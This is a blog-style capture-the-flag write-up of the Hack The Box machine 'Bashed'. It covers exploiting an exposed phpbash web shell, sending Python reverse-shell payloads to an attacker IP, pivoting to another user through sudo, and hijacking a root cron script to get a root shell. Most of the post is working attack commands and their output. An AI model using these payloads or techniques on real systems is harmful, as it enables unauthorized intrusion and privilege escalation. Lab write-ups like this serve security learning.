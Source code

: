 ```yaml
---
layout: post
title:  "HTB: Bashed"
date:   2021-03-07 19:30:00 +1100
category: hacking
---
```


## Bashed
Next after Netmon is Bashed; I don't know anything about it. I do wonder if it's shellshock though, just based on the name.

## Ports
HTTP only. Makes it easy, no?

## HTTP
On the webpage we get some information about something called *phpbash*, and there is a link to a Github [repo](https://github.com/Arrexel/phpbash/blob/master/phpbash.php) where we can inspect the code. Essentially it takes POST requests and runs them as *shell_exec*. We need to find it on the website; a quick run with *dirsearch* turns up /dev and we can find what we're after.

>http://10.10.10.68/dev/phpbash.php

We can send it commands; I use Burp Repeater to get myself a reverse shell:

{% highlight html %}
POST /dev/phpbash.php?cmd=id HTTP/1.1
Host: 10.10.10.68
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
Content-Length: 252
Origin: http://10.10.10.68
Connection: close
Referer: http://10.10.10.68/dev/phpbash.php?cmd=id

cmd=cd /var/www/html/dev; python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
{% endhighlight %}

## On the box
I check *sudo -l* and find I can do whatever I want as *scriptmanager*; so I become scriptmanager.

{% highlight shell %}
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.68] 40400
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash");'
www-data@bashed:/var/www/html/dev$ sudo -l
sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
www-data@bashed:/var/www/html/dev$ sudo -u scriptmanager /bin/bash  
sudo -u scriptmanager /bin/bash
scriptmanager@bashed:/var/www/html/dev$ cd ~
cd ~
scriptmanager@bashed:~$ pwd
pwd
/home/scriptmanager
{% endhighlight %}

That's all well and good, but I need to know what scriptmanager has access to. I search for files:

{% highlight shell %}
scriptmanager@bashed:/$ find . -user scriptmanager 2>/dev/null
find . -user scriptmanager 2>/dev/null
./scripts
./scripts/test.py
./home/scriptmanager
./home/scriptmanager/.profile
./home/scriptmanager/.bashrc
./home/scriptmanager/.nano
./home/scriptmanager/.bash_history
./home/scriptmanager/.bash_logout
# etc, including about a million /proc
{% endhighlight %}

Right; what's *test.py*? 

{% highlight shell %}
scriptmanager@bashed:/scripts$ ls -lash
ls -lash
total 16K
4.0K drwxrwxr--  2 scriptmanager scriptmanager 4.0K Dec  4  2017 .
4.0K drwxr-xr-x 23 root          root          4.0K Dec  4  2017 ..
4.0K -rw-r--r--  1 scriptmanager scriptmanager   58 Dec  4  2017 test.py
4.0K -rw-r--r--  1 root          root            12 Mar  7 00:22 test.txt
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$
{% endhighlight %}

Two interesting things to note here. One, we own the python script. Two, root owns the output and it was created very recently. I check /etc/crontab but there is nothing interesting. I wait a minute or two, and a new copy of *test.txt* is created. So it is running as a root cron. That's our in:

{% highlight shell %}
scriptmanager@bashed:/scripts$ rm test.py
rm test.py
scriptmanager@bashed:/scripts$ printf 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",1235));os.dup2(s.fileno(),; os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);\n' >> test.py
<no(),2);p=subprocess.call(["/bin/sh","-i"]);\n' >> test.py                  
scriptmanager@bashed:/scripts$
{% endhighlight %}

We don't have to wait long:

{% highlight shell %}
┌──(root💀kali)-[/opt/htb/bashed]
└─# nc -nvlp 1235                                                                                                                                                     1 
listening on [any] 1235 ...
connect to [10.10.14.9] from (UNKNOWN) [10.10.10.68] 36520
/bin/sh: 0: cant access tty; job control turned off
# id;hostname
uid=0(root) gid=0(root) groups=0(root)
bashed
# cd /root
# ls -lash
total 32K
4.0K drwx------  3 root root 4.0K Dec  4  2017 .
4.0K drwxr-xr-x 23 root root 4.0K Dec  4  2017 ..
4.0K -rw-------  1 root root    1 Dec 23  2017 .bash_history
4.0K -rw-r--r--  1 root root 3.1K Dec  4  2017 .bashrc
4.0K drwxr-xr-x  2 root root 4.0K Dec  4  2017 .nano
4.0K -rw-r--r--  1 root root  148 Aug 17  2015 .profile
4.0K -r--------  1 root root   33 Dec  4  2017 root.txt
4.0K -rw-r--r--  1 root root   66 Dec  4  2017 .selected_editor
# cat root.txt
flag goes here
{% endhighlight %}

Pretty simple. Strictly speaking Traceback would be next but I've done that, so Nibbles it is.
